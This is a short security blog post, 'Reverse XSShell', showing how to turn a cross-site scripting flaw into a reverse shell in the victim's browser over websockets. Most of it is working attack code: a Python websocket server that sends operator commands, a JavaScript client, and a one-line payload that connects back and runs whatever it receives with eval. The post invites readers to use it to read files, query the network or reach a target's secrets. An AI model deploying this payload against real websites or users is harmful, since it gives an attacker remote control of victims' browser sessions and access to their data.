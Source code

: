 ```yaml
---
author: "Laluka"
title: "Reverse XSShell"
slug: "reverse_xsshell"
date: 2020-02-22
description: "Having some fun playing with xss and websockets. A different approach to reverse shell and their contexts!"
---
```


# The initial idea

While auditing a website, I found out they were using websockets to transmit data. I didn't kow much about it so I had to [ReadTheFancyManual](https://rtfm.re/). Once I understood that it was... Well... A socket one could use with web technologies, I asked myself "What do I usually do with sockets?"

Tunnels! Transfer files! Or... Spawn reverse shells?!

Or... Spawn a reverse XSShell??


# What do we need?

## A websocket server

```python
import asyncio
import websockets


async def hello(websocket, path):
    print("WebSocket received")

    while True:
        cmd = input("cmd > ")
        await websocket.send(cmd)
        print(f"sent: {cmd}")

        out = await websocket.recv()
        print(f"out : {out}\n")

start_server = websockets.serve(hello, "localhost", 8080)

asyncio.get_event_loop().run_until_complete(start_server)
asyncio.get_event_loop().run_forever()
```

## Some javascript to connect back

- Readable version

```javascript
var socket = new WebSocket("ws://localhost:8080/");

socket.onopen = function() {
  console.log("Connected!");
};

socket.onmessage = function(event) {
  console.log("Cmd received", event.data);
  socket.send(eval(event.data));
  // socket.close();
};
```

- Actual payload I use

```javascript
s=new WebSocket("ws://localhost:8080/"),s.onmessage=function(ev){try{s.send(eval(ev.data))}catch(e){s.send(e)}};
```

## An html page to execute the payload

> Who cares about html anyway?

## In short

You can find the code here: https://gitlab.com/TheLaluka/ctf_utils/-/tree/master/web/websocket_xss

And what this gives us is a reverse shell in a javascript (browser / renderer) context. What you can do from here is up to you.. Try to read files, query the network, mess with your target's DOM or secrets... Have fun ! :)

# Demo

<img class="img_big" src="demo.png" alt="demo">


# Limitations

- You still need an xss with little restrictions (use eval, long payload, ...)
- The reverse xsshell can be blocked on its way back by a firewall / proxy / SOP / CSP / ...
- Blocking actions (alert, prompt, redirect, ...) will break the current shell (trig xss again!)


# Appendix

Once again, after spending some time experimenting a new idea, I start google it and... Well, it's not _really_ something new. It's just about re-discovering [what others found before](https://github.com/raz-varren/xsshell). That being said, I love one-liners and keeping things as simple as possible, so it's not the same-same.. :)


<img class="img_big" src="same_but_different.gif" alt="same_but_different">
